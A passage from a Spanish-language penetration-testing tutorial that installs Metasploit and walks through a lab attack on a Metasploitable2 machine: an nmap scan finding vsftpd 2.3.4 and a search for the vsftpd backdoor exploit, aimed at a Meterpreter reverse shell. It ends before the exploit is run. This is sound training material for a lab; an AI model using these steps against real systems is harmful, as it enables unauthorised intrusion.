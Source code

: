 Ya lo vimos antes, pero lo resumo:

#### En Kali Linux:

```bash
msfconsole
```

#### En Debian/Ubuntu:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfinstall > msfinstall
chmod +x msfinstall
sudo ./msfinstall
msfconsole
```

---

### 🧪 EJEMPLO COMPLETO PASO A PASO

#### 🎯 Objetivo:

Hacer que la máquina víctima (Metasploitable2) se conecte a nuestra Kali usando un **payload reverse shell Meterpreter**.

---

#### Paso 1: Escanear con Nmap

```bash
nmap -sV 192.168.1.105
```

Resultado:

```
21/tcp open  vsftpd 2.3.4
```

---

#### Paso 2: Iniciar Metasploit

```bash
msfconsole
```

---

#### Paso 3: Buscar el exploit

```bash
search vsftpd
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---